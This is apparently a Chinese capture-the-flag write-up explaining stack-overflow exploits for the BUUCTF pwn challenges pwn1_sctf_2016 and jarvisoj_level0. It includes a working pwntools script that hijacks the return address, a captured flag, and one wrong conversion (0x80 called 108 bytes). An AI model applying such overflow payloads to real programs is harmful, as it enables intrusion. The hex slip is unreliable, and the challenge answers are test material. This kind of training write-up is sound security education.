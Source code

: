 再按一次`F5`后发现第`19`行的`replace()`函数会把输入的`I`替换成`you`，`1`个字符变成`3`个字符，并且在第`27`行会对原来的`s`变量重新赋值。

![](https://paper.tanyaodan.com/BUUCTF/pwn1_sctf_2016/4.png)

在`Functions window`可以看到有一个`get_flag()`函数，按`F5`反汇编可以看到这是一个系统调用，且`get_flag()`函数的起始地址为`0x8048F0D`。

![](https://paper.tanyaodan.com/BUUCTF/pwn1_sctf_2016/5.png)

查看栈结构发现`s`的长度为`0x3c`，即`60`个字节，而输入被限制在`32`个字节内，每个`I`可以被替换成`you`，所以输入`60÷3=20`个`I`就能让栈溢出，然后`db 4 dup(?)` 还需要占用`4`个字节的内存，最后加上`get_flag()`函数的起始地址`0x8048F0D`构成`payload`。

![](https://paper.tanyaodan.com/BUUCTF/pwn1_sctf_2016/6.png)

编写`Python`脚本连接`node4.buuoj.cn`的监听端口`26333`，发送`payload`即可得到`flag{efb5872f-b8d0-4892-9ed3-ea71e8a7a983}`。

```python
from pwn import *

io = remote('node4.buuoj.cn', 26333)
e = ELF('pwn1_sctf_2016')
address = e.symbols['get_flag']
log.success('get_flag_address => %s' % hex(address).upper())
payload = b'I'*20 + b'a'*0x4 + p32(address)
# payload = b'I'*20 + b'a'*0x4 + p32(0x8048F0D)
io.sendline(payload)
io.interactive()
```

![](https://paper.tanyaodan.com/BUUCTF/pwn1_sctf_2016/7.png)

------

### [jarvisoj_level0](https://buuoj.cn/challenges#jarvisoj_level0)

先`file ./level0`查看文件类型再`checksec --file=level0`检查一下文件保护情况。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_level0/1.png)

用`IDA Pro 64bit`打开`level0`后按`F5`反汇编源码并查看主函数，发现问题的关键在于`vulnerable_function()`函数。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_level0/2.png)

双击`vulnerable_function()`函数可以看到`buf`的长度只有`0x80`，即可用栈大小只有`108`字节，但是`read()`并没有限制输入，显然存在栈溢出漏洞。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_level0/3.png)

在`Functions window`可以看到有一个`callsystem()`函数，按`F5`反汇编可以看到这是一个系统调用，且`callsystem()`函数的起始地址为`0x400596`。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_level0/4.png)

编写`Python`脚本连接`node4.buuoj.cn`的监听端口`25719`，`buf`需覆盖`0x80`个字节覆盖，再加上`rbp`的`0x8`个字节，最后加上`callsystem()`函数的起始地址`0x400596`构成`payload`。
